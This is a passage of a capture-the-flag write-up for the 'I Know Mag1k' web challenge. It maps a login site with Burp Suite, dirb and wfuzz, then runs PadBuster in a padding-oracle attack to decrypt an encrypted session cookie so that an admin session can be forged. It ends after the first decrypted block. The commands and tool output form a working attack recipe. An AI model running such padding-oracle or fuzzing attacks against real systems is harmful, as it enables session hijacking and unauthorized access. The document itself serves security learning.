






# WEB CHALLENGE: I KNOW MAG1K

## Challenge Description
Can you get to the profile page of the admin?

```
host: 88.198.233.174 port:41162
```





### BURPSUITE

Let's see what does burpsuite tell us..

```
<REQUEST>GET /login.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Tue, 26 Dec 2017 05:57:32 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2347
Connection: close
Content-Type: text/html; charset=UTF-8
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <title>Login | I Know Mag1k</title>
    <meta name="viewport" content="width=device-width" />
    <link href='http://fonts.googleapis.com/css?family=Titillium+Web:400,300,600' rel='stylesheet' type='text/css'>
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/normalize/5.0.0/normalize.min.css">
    <link rel="stylesheet" href="/assets/css/login.css">
    <script src='https://www.google.com/recaptcha/api.js'></script>
</head>
<body>
<div class="form">
    <ul class="tab-group">
        <li class="tab"><a href="/register.php">Register</a></li>
        <li class="tab active"><a href="/login.php">Log In</a></li>
    </ul>
    <div class="tab-content">
        <div id="login">
            <h1>Log In</h1>
            <form action="/login.php" method="post" id="login-form">
                <div class="field-wrap">
                    <label>Username<span class="req">*</span></label>
                    <input type="text" required autocomplete="off" name="username"/>
                </div>
                <div class="field-wrap">
                    <label>Password<span class="req">*</span></label>
                    <input type="password" required autocomplete="off" name="password"/>
                </div>
                                <button class="button button-block" type="submit">Login</button>
            </form>
        </div>
    </div>
</div>
<script src="/assets/js/jquery-3.2.1.js"></script>
<script>
    $('.form').find('input, textarea').on('keyup blur focus', function (e) {
      var $this = $(this), label = $this.prev('label');
      if (e.type === 'keyup') {
        if ($this.val() === '') label.removeClass('active highlight');
        else label.addClass('active highlight');
      } else if (e.type === 'blur') {
        if ($this.val() === '') label.removeClass('active highlight');
        else label.removeClass('highlight');
      } else if (e.type === 'focus') {
        if ($this.val() === '') label.removeClass('highlight');
        else if ($this.val() !== '') label.addClass('highlight');
      }
    });
</script>
</body>
</html>
</RESPONSE>
```

So we learn the form has a `username` and `password` parameter.

```
<REQUEST>
POST /login.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:41162/login.php
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
username=testname&password=testpasswd
</REQUEST>
```

.. and presented with "Invalid Username/Password" response upon failed login.

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Tue, 26 Dec 2017 05:57:52 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 2393
Connection: close
Content-Type: text/html; charset=UTF-8
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <title>Login | I Know Mag1k</title>
    <meta name="viewport" content="width=device-width" />
    <link href='http://fonts.googleapis.com/css?family=Titillium+Web:400,300,600' rel='stylesheet' type='text/css'>
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/normalize/5.0.0/normalize.min.css">
    <link rel="stylesheet" href="/assets/css/login.css">
    <script src='https://www.google.com/recaptcha/api.js'></script>
</head>
<body>
<div class="form">
    <ul class="tab-group">
        <li class="tab"><a href="/register.php">Register</a></li>
        <li class="tab active"><a href="/login.php">Log In</a></li>
    </ul>
    <div class="tab-content">
        <div id="login">
            <h1>Log In</h1>
            <form action="/login.php" method="post" id="login-form">
                <div class="field-wrap">
                    <label>Username<span class="req">*</span></label>
                    <input type="text" required autocomplete="off" name="username"/>
                </div>
                <div class="field-wrap">
                    <label>Password<span class="req">*</span></label>
                    <input type="password" required autocomplete="off" name="password"/>
                </div>
                <p class="error">Invalid Username/Password</p>                <button class="button button-block" type="submit">Login</button>
            </form>
        </div>
    </div>
</div>
<script src="/assets/js/jquery-3.2.1.js"></script>
<script>
    $('.form').find('input, textarea').on('keyup blur focus', function (e) {
      var $this = $(this), label = $this.prev('label');
      if (e.type === 'keyup') {
        if ($this.val() === '') label.removeClass('active highlight');
        else label.addClass('active highlight');
      } else if (e.type === 'blur') {
        if ($this.val() === '') label.removeClass('active highlight');
        else label.removeClass('highlight');
      } else if (e.type === 'focus') {
        if ($this.val() === '') label.removeClass('highlight');
        else if ($this.val() !== '') label.addClass('highlight');
      }
    });
</script>
</body>
</html>
</RESPONSE>
```



If we explore the "register" flow..

```
<REQUEST>
POST /register.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:41162/register.php
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 76
username=mytest&email=test%40mail.com&password=testpasswd&confirm=testpasswd
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 302 Found
Date: Tue, 26 Dec 2017 06:09:21 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: profile.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
</RESPONSE>
```

```
<REQUEST>
GET /profile.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:41162/register.php
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 302 Found
Date: Tue, 26 Dec 2017 06:09:34 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
</RESPONSE>
```

We see there is another script called `profile.php` that gets invoked and we
are eventually redirected back to the login screen.  If we now try to login
with our newly created credentials..

```
<REQUEST>
POST /login.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:41162/login.php
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
username=mytest&password=testpasswd
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 302 Found
Date: Tue, 26 Dec 2017 06:14:26 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: iknowmag1k=IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D; expires=Tue, 26-Dec-2017 07:14:26 GMT; Max-Age=3600; path=/
Location: profile.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
</RESPONSE>
```

Interesting.. an `iknowmag1k` cookie gets set with presumably our sessionID?

```
<REQUEST>
GET /profile.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:41162/login.php
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731; iknowmag1k=IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

```
<RESPONSE>
HTTP/1.1 200 OK
Date: Tue, 26 Dec 2017 06:14:31 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 3853
Connection: close
Content-Type: text/html; charset=UTF-8
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta content='width=device-width, initial-scale=1.0, maximum-scale=1.0, user-scalable=0' name='viewport' />
    <title>Profile | I Know Mag1k</title>
    <meta name="viewport" content="width=device-width" />
    <link href='http://fonts.googleapis.com/css?family=Roboto:400,700,300' rel='stylesheet' type='text/css'>
    <link href="/assets/css/styles.css" rel="stylesheet" />
</head>
<body>
<div class="wrapper">
    <div class="sidebar" data-color="purple" data-image="/assets/img/sidebar.jpg">
        <div class="sidebar-wrapper">
            <div class="logo">
                <a href="#" class="simple-text">I Know Mag1k</a>
            </div>
            <ul class="nav">
                <li class="active">
                    <a href="/profile.php">
                        <i class="pe-7s-user"></i>
                        <p>User Profile</p>
                    </a>
                </li>
            </ul>
        </div>
    </div>
    <div class="main-panel">
        <nav class="navbar navbar-default navbar-fixed">
            <div class="container-fluid">
                <div class="navbar-header">
                    <button type="button" class="navbar-toggle" data-toggle="collapse">
                        <span class="sr-only">Toggle navigation</span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                        <span class="icon-bar"></span>
                    </button>
                </div>
                <div class="collapse navbar-collapse">
                    <ul class="nav navbar-nav navbar-right">
                        <li><a href="/logout.php"><p>Log out</p></a></li>
                        <li class="separator hidden-lg hidden-md"></li>
                    </ul>
                </div>
            </div>
        </nav>
        <div class="content">
            <div class="container-fluid">
                <div class="row">
                    <div class="col-md-12">
                        <div class="card card-user">
                                                            <div class="image">
                                    
                                </div>
                                <div class="content">
                                    <div class="author">
                                        <a href="#">
                                            
                                            <h4 class="title">mytest<br />
                                            <small>test@mail.com</small>
                                            </h4>
                                        </a>
                                    </div>
                                </div>
                                                        <hr/>
                            <div class="text-center">
                                <button href="#" class="btn btn-simple"><i class="fa fa-facebook-square"></i></button>
                                <button href="#" class="btn btn-simple"><i class="fa fa-twitter"></i></button>
                                <button href="#" class="btn btn-simple"><i class="fa fa-google-plus-square"></i></button>
                            </div>
                        </div>
                    </div>
                </div>
            </div>
        </div>
        <footer class="footer">
            <div class="container-fluid">
                <p class="copyright pull-right">&copy; 2017 <a href="#">ECSC Greek Quals</a> | Greunion</p>
            </div>
        </footer>
    </div>
</div>
</body>
</html>
</RESPONSE>
```



And finally, let's explore the logout flow..

```
<REQUEST>
GET /logout.php HTTP/1.1
Host: 88.198.233.174:41162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://88.198.233.174:41162/profile.php
Cookie: PHPSESSID=jpdfhgchqurb004uia203nl731; iknowmag1k=IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D
Connection: close
Upgrade-Insecure-Requests: 1
</REQUEST>
```

We see that the `iknowmag1k` cookie gets deleted.

```
<RESPONSE>
HTTP/1.1 302 Found
Date: Tue, 26 Dec 2017 06:21:28 GMT
Server: Apache/2.4.18 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: iknowmag1k=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0
Location: login.php
Content-Length: 0
Connection: close
Content-Type: text/html; charset=UTF-8
</RESPONSE>
```

### ENUMERATING

Let's try to see if we can discover other points of interest by enumerating
through the site (e.g. what if there is an admin.php site?)

##### DIRBUSTER

```
$ dirb http://88.198.233.174:41162 /usr/share/wordlists/dirb/small.txt -x /usr/share/wordlists/dirb/extensions_common.txt

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Dec 26 01:31:37 2017
URL_BASE: http://88.198.233.174:41162/
WORDLIST_FILES: /usr/share/wordlists/dirb/small.txt
EXTENSIONS_FILE: /usr/share/wordlists/dirb/extensions_common.txt | ()(.asp)(.aspx)(.bat)(.c)(.cfm)(.cgi)(.com)(.dll)(.exe)(.htm)(.html)(.inc)(.jhtml)(.jsa)(.jsp)(.log)(.mdb)(.nsf)(.php)(.phtml)(.pl)(.reg)(.sh)(.shtml)(.sql)(.txt)(.xml)(/) [NUM = 29]

-----------------

GENERATED WORDS: 959                                                           

---- Scanning URL: http://88.198.233.174:41162/ ----
==> DIRECTORY: http://88.198.233.174:41162/assets/                             
+ http://88.198.233.174:41162/assets/ (CODE:200|SIZE:0)                        
+ http://88.198.233.174:41162/icons/ (CODE:403|SIZE:298)                       
+ http://88.198.233.174:41162/index.php (CODE:302|SIZE:0)                      
+ http://88.198.233.174:41162/login.php (CODE:200|SIZE:2347)                   
+ http://88.198.233.174:41162/logout.php (CODE:302|SIZE:0) 
+ http://88.198.233.174:41162/profile.php (CODE:302|SIZE:0) 
+ http://88.198.233.174:41162/register.php (CODE:200|SIZE:2746) 
==> DIRECTORY: http://88.198.233.174:41162/utils/                              
+ http://88.198.233.174:41162/utils/ (CODE:200|SIZE:0)
```

Well `assets/` and `icons/` directory don't seem to be of interest here.

##### WFUZZ

```
$wfuzz -c -z file,/usr/share/wordlists/rockyou.txt --hc=400,403,404 http://88.198.233.174:41162/FUZZ.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.2.3 - The Web Fuzzer                         *
********************************************************

Target: HTTP://88.198.233.174:41162/FUZZ.php
Total requests: 14344392

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

05611:  C=200     61 L	     180 W	   2746 Ch	  "register"
08507:  C=302      0 L	       0 W	      0 Ch	  "profile"
09699:  C=200     54 L	     161 W	   2347 Ch	  "login"
21958:  C=302      0 L	       0 W	      0 Ch	  "logout"
```

This didn't tell us anything new..

### COOKIE

Let's revisit that cookie we saw that was being set earlier. What if we could
figure out the algorithm used to create this cookie, then create a valid cookie 
for other users? (like the admin?)

```
iknowmag1k=IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D
```

Decoding from URL/BASE64 to ASCII doesn't give us anything meaningful.

```
"HvE7$aEFF(?AytAytST
```

.. but some experimentation shows that logging out and logging back in again
with the same user generates a new `iknowmag1k` cookie, however, using 
`burpsuite` to modify the cookie back to the first cookie still works (whereas
modifying the cookie to some random value does not). This lends us evidence that
the cookie probably has some information about the user encoded in it, but is
encrypted some how.

##### PADBUSTER

So we have to figure out the underlying syntax and semantics of the cookie by
attempting to decrypt it.

```
https://tools.kali.org/web-applications/padbuster

PadBuster is a Perl script for automating Padding Oracle Attacks. PadBuster  
provides the capability to decrypt arbitrary ciphertext, encrypt arbitrary
plaintext, and perform automated response analysis to determine whether a
request is vulnerable to padding oracle attacks.
```

Let's feed `padbuster` our valid `iknowmag1k` cookie from our `mytest` user
session against `profile.php` which seems to be the script that validates
whether or not the cookie is valid.

```
$ padbuster http://88.198.233.174:41385/profile.php IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D 8 -cookies iknowmag1k=IoKBokh2oOKdbLGKf0U33CSdqKVh5djZRUad5UbcKD9BBHl0HxBTVA%3D%3D -encoding 0 

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 302
[+] Location: login.php
[+] Content Length: 0

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 4 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	302	0	login.php
2 **	255	500	0	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (39/256) [Byte 8]
[+] Success: (128/256) [Byte 7]
[+] Success: (249/256) [Byte 6]
[+] Success: (215/256) [Byte 5]
[+] Success: (44/256) [Byte 4]
[+] Success: (14/256) [Byte 3]
[+] Success: (89/256) [Byte 2]
[+] Success: (175/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 9d6cb18a7f4537dc
[+] Intermediate Bytes (HEX): 59a0f4d12d0482d8
[+] Plain Text: {"user":

